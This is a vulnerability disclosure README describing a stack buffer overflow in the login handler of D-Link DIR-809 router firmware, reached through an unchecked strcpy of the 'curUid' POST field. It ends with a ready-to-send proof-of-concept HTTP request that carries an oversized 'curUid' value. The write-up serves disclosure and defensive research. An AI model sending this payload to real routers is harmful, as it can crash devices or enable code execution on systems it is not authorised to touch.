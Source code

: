# D-Link DIR809 Vulnerability

The Vulnerability is in page `/fromLogin` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

## Progress

- Confirmed by vendor. 


## Vulnerability description

In the function `sub_8003183C` ( page `/fromLogin` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of the key "curUid" in the http post request which is completely under the attacker's control. 
2. The string `v4` obtained from user is then passed to `sub_800FE9CC` as the third argument. 
3. In the function `sub_800FE9CC`, argument `a3` is copied onto the stack using `strcpy` without any check. So we can make the stack buffer overflow in `v8`. (See the second figure below. )

![2021-05-10_10h03_30](README/2021-05-10_10h03_30.png)

![2021-05-10_10h05_24](README/2021-05-10_10h05_24.png)







## PoC

``` 
POST /formLogin.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/index.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=HQLFFU3LE1
Connection: close

curTime=1620541879564&curUid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&FILECODE=&VERIFICATION_CODE=&user_name=admin&loginpwd=4DD9824117635539BF66A03AB80A35FC&VER_CODE=
```

